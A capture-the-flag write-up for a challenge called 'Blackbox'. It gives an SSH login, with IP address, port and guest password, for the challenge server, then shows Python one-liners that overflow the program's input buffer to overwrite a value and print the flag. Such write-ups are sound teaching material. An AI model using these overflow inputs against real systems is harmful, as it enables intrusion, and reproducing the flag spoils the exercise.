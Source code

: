 # Blackbox
What is 1 + 1? Run the command: ssh blackbox@104.131.79.111 -p 1001 (pw: guest).

## Solution
I began by trying normal exploit recon (ltrace, strace, strings, gdb), however,
these commands failed since the file is read protected.

I then tested if I could cause a segfault by overflowing the input buffer:
```
blackbox@ubuntu-512mb-nyc3-01:~$ python -c "print 'A' * 300" | ./blackbox
What is 1 + 1 = No dummy... 1 + 1 != 1094795585...
*** stack smashing detected ***: ./blackbox terminated

[1]+  Stopped                 python -c "print 'A' * 300" | ./blackbox
```

Playing around with the amount of characters printed, I found the sweetspot was
80:
```
blackbox@ubuntu-512mb-nyc3-01:~$ python -c "print 'A' * 80 + '2'" | ./blackbox
What is 1 + 1 = No dummy... 1 + 1 != 50...
```

The number 2 in ascii has the decimal value 50. Changing the number 2 to 0x02
was the solution.

```
blackbox@ubuntu-512mb-nyc3-01:~$ python -c "print 'A' * 80 + '\x02'" | ./blackbox
What is 1 + 1 = CORRECT! You get flag:
flag{0n3_4lus_1_1s_Tw0_dumm13!!}

[1]+  Stopped                 python -c "print 'A' * 80 + '\x02'" | ./blackbox
```
